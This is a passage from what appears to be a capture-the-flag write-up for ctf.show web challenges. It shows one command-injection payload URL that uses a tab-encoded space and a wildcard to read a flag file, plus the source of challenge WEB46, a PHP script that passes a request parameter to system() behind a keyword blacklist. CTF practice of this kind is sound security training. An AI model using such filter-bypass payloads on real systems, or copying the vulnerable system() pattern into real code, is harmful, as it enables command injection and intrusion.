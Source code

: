 ```php
http://5266b045-bb39-4219-a054-d84f6d4d907e.challenge.ctf.show/?c=more%09f*||
```

<figure><img src="../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## <mark style="color:blue;background-color:orange;">（18）WEB46</mark>

```php
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:50:19
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```
